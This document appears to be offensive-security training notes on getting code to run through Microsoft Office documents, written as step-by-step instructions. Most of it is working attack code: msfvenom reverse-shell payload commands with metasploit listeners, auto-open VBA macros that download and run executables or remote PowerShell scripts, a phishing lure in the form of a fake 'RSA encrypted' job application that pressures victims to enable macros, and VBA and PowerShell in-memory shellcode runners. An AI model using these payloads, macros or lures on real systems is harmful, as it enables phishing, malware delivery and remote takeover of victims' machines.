


# Advanced Code Execution With Office

#### Staged payload&#x20;


```shellscript
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o shell.exe
```


#### Non-staged Payloads <a href="#staged_vs_non-staged_payloads" id="staged_vs_non-staged_payloads"></a>


```shellscript
sudo msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o shell.exe
```


#### create a listener


```shellscript
sudo msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.5
set lport 4444
```


***

### VBA macro with powershell

```vb
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', 'msfstaged.exe')"
    Shell str, vbHide
    Dim exePath As String
    exePath = ActiveDocument.Path + "\msfstaged.exe"
    Wait (2)
    Shell exePath, vbHide

End Sub
    Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub
```


***

### Phishing Pre Texting

**Step 1 : crate a file and save text in AutoText Gallery Template**


select all content Ctr + A&#x20;

navigate to Insert --> Quick part --> AutoText --> and save selection


<figure><figcaption></figcaption></figure>

**Step 2 : create New Building Block**

<figure><figcaption></figcaption></figure>

**Step 3 : Create a Fake RSA Encrypted text from the original word document**


```
Job Application for Human Resources Analyst
This file is encrypted with RSA to protected personal information
To comply with GDPR regulation please Enable Editing and Enable Content shown above

<!----------------RSA Encrypted Block--------------------->
JJXWEICBOBYGY2LDMF2GS33OEBTG64RAJB2W2YLOEBJGK43POVZGGZLTEBAW4YLMPFZ
XICSUNBUXGIDGNFWGKIDJOMQGK3TDOJ4XA5DFMQQHO2LUNAQFEU2BEB2G6IDQOJXXIZ
LDORSWIIDQMVZHG33OMFWCA2LOMZXXE3LBORUW63QKKRXSAY3PNVYGY6JAO5UXI2BAI
5CFAURAOJSWO5LMMF2GS33OEBYGYZLBONSSARLOMFRGYZJAIVSGS5DJNZTSAYLOMQQE
K3TBMJWGKICDN5XHIZLOOQQHG2DPO5XCAYLCN53GKCQJJXWEICBOBYGY2LDMF2GS33O
EBTG64RAJB2W2YLOEBJGK43POVZGGZLTEBAW4YLMPFZXICSUNBUXGIDGNFWGKIDJOMQ
GK3TDOJ4X
```


<figure><figcaption></figcaption></figure>

Step 4 : Create a VBA code&#x20;


```vb
Sub Document_Open()
    SubstitutePage
End Sub

Sub AutoOpen()
    SubstitutePage
End Sub

Sub SubstitutePage()
    ActiveDocument.Content.Select
    Selection.Delete
    ActiveDocument.AttachedTemplate.AutoTextEntries("MyCV").Insert Where:=Selection.Range, RichText:=True
End Sub
```


<figure><figcaption></figcaption></figure>

**Step 5 : save old word file**

<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>

***

### Executing Shellcode in Word Memory

#### Calling Win32 APIs from VBA  <a href="#calling_win32_apis_from_vba" id="calling_win32_apis_from_vba"></a>

* **GetUserNameA**


```vb
Private Declare PtrSafe Function GetUserName Lib "advapi32.dll" Alias "GetUserNameA" (ByVal lpBuffer As String, ByRef nSize As Long) As Long

Function MyMacro()
  Dim res As Long
  Dim MyBuff As String * 256
  Dim MySize As Long
  Dim strlen As Long
  MySize = 256
  
  res = GetUserName(MyBuff, MySize)
  strlen = InStr(1, MyBuff, vbNullChar) - 1
  MsgBox Left$(MyBuff, strlen)
End Function
```


<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* **MessageBoxA**


```vb

Private Declare PtrSafe Function MessageBox Lib "user32.dll" Alias "MessageBoxA" (ByVal hwnd As LongPtr, ByVal lpText As String, ByVal lpCaption As String, ByVal uType As Long) As Long

Function MyMacro()
    Dim res As Long

    res = MessageBox(0, "Hello World!", "My Message", 0)
End Function

```


<figure><figcaption></figcaption></figure>

#### VBA Shellcode <a href="#vba_shellcode_runner" id="vba_shellcode_runner"></a>


use three Win32 APIs from Kernel32.dll: _<mark style="color:$danger;">VirtualAlloc</mark>_, _<mark style="color:$danger;">RtlMoveMemory</mark>_, and _<mark style="color:$danger;">CreateThread</mark>_.


Function Prototype




```c
LPVOID VirtualAlloc(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);
ccccsas
```





```
VOID RtlMoveMemory(
  VOID UNALIGNED *Destination,
  VOID UNALIGNED *Source,
  SIZE_T         Length
);

```





```
HANDLE CreateThread(
  LPSECURITY_ATTRIBUTES   lpThreadAttributes,
  SIZE_T                  dwStackSize,
  LPTHREAD_START_ROUTINE  lpStartAddress,
  LPVOID                  lpParameter,
  DWORD                   dwCreationFlags,
  LPDWORD                 lpThreadId
);

```




**Step 1: Generate shellcode in vbapplication format**


```shellscript
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.6 LPORT=443 EXITFUNC=thread -f vbapplication
```


<figure><figcaption></figcaption></figure>

Step 2 : Create a VBA code to run shell code in memory


```vb
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As LongPtr, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As LongPtr, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function MyMacro()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim tid As Long
    Dim res As LongPtr

    buf = Array(232, 129, 0, 0, 0, ...)  ' <- paste your msfvenom output here

    addr = VirtualAlloc(0, UBound(buf) + 1, &H3000, &H40)
    If addr = 0 Then Exit Function

    For counter = 0 To UBound(buf)
        RtlMoveMemory addr + counter, buf(counter), 1
    Next counter

    res = CreateThread(0, 0, addr, 0, 0, tid)
End Function


```


<figure><figcaption></figcaption></figure>

**Step 3 : Create a multi handler listener** &#x20;


```shellscript
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 192.168.1.6
set LPORT 443
run
```


<figure><figcaption></figcaption></figure>

***

### Execute Shellcode in Powershell  <a href="#calling_win32_apis_from_powershell" id="calling_win32_apis_from_powershell"></a>

> ```
> C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell_ise.exe
> ```

#### Calling Win32 APIs from PowerShell <a href="#calling_win32_apis_from_powershell" id="calling_win32_apis_from_powershell"></a>

* calling <mark style="color:$danger;">`MessageBox`</mark> (powershell 32bit)


```powershell
$User32 = @"
using System;
using System.Runtime.InteropServices;

public class User32 {
    [DllImport("user32.dll", CharSet=CharSet.Auto)]
    public static extern int MessageBox(IntPtr hWnd, String text, 
        String caption, int options);
}
"@

Add-Type $User32

[User32]::MessageBox(0, "This is an alert", "MyBox", 0)

```


<figure><figcaption></figcaption></figure>

* calling _<mark style="color:$danger;">`GetUserName`</mark>_ (powershell 32bit)


```shellscript
$User32 = @"
using System;
using System.Runtime.InteropServices;
using System.Text;

public class UserInfo {
    [DllImport("advapi32.dll", CharSet = CharSet.Unicode,
        SetLastError = true)]
    public static extern bool GetUserName(
        StringBuilder buffer,
        ref int size
    );
}
"@

Add-Type $User32

$buffer = New-Object System.Text.StringBuilder 256
$size = $buffer.Capacity

if ([UserInfo]::GetUserName($buffer, [ref]$size)) {
    Write-Output $buffer.ToString()
} else {
    throw "GetUserName failed."
}
```


#### Porting Shellcode Runner to PowerShell <a href="#porting_shellcode_runner_to_powershell" id="porting_shellcode_runner_to_powershell"></a>

**Step 1 : create a shellcode with msfvenom for PS1 (32bit Arch)**


```shellscript
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.6 LPORT=443 EXITFUNC=thread -f ps1
```


<figure><figcaption></figcaption></figure>

**Step 3 : create a full script to Shellcode runner in PowerShell**


```powershell
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
}
"@
Add-Type $Kernel32


[Byte[]] $buf = #shell_code_Bytes
$size = $buf.Length
[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);
```


<figure><figcaption></figcaption></figure>

**Step 4 : start apache2 service and copy script file**


```shellscript
sudo cp Run.ps1 /var/www/html
sudo systemctl start apache2.service
sudo systemctl status apache2.service
```


<figure><figcaption></figcaption></figure>

**Step 5 : create a Multi handler listener** &#x20;


```shellscript
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST <Attacker Kali Machines IP>
set LPORT 443
exploit
```


<figure><figcaption></figcaption></figure>

Step 6 : create a VBA code in word file to download Run.ps1 Script


```vb
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.1.6/Run.ps1') | IEX"
    Shell str, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

```


<figure><figcaption></figcaption></figure>
